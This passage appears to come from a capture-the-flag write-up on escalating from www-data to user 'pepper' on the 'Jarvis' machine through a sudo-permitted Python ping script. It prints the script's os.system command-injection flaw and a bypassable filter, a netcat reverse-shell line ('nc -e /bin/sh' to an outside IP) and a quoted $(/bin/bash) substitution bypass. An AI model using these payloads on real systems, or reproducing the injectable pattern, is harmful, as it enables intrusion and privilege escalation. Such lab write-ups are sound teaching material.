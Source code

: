 -r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
drwxr-xr-x 5 pepper pepper 4096 Oct  2 13:38 .
drwxr-xr-x 2 pepper pepper 4096 Oct  2 13:38 .ssh
$ cat user	
cat: user: No such file or directory
$ cat user.txt
cat: user.txt: Permission denied
{% endhighlight %}

<p>Doh! So close... At least we know the file is there. We now also know we need try and pivot to the user pepper. After a few minutes of poking around found something interesting with the sudo list.</p>

{% highlight shell %}
$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
{% endhighlight %}

<p>So we are trying to pivot to user and there just happens to be a defined rule that we can execute as that user? That seems promising. After a bit of poking through the script it seems that running <code>simpler.py</code> essentially pings a host that you pass as a parameter. It also looks like there is some forbidden character filters to prevent chaining commands - but that should not stop us.</p>

{% highlight python %}
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
{% endhighlight %}

<p>My initial thoughts were to leverage character encoding. I wanted to try and chain a <i>; nc -e /bin/sh 10.10.xxx.xxx 1337</i> on the ping command. After attempting a few different variations, including unicode and hex, without success I stumbled on to an <a href="https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html">excellent article</a> that seemed quite in line with what I was trying to achieve.</p>

{% highlight shell %}
A bash command can then be encapsulated using the $() technique. 
In the case below, we simply call the bash binary.
        
        NetMRI-VM-AD30-5C6CE> ping $(/bin/bash)
{% endhighlight %}

<p>So instead of trying to chain a command to the built-in ping how about encapsulating instead? Seems promising. Let's upload another python shell script and attempt to call the shell script as an encapsulated command.</p>
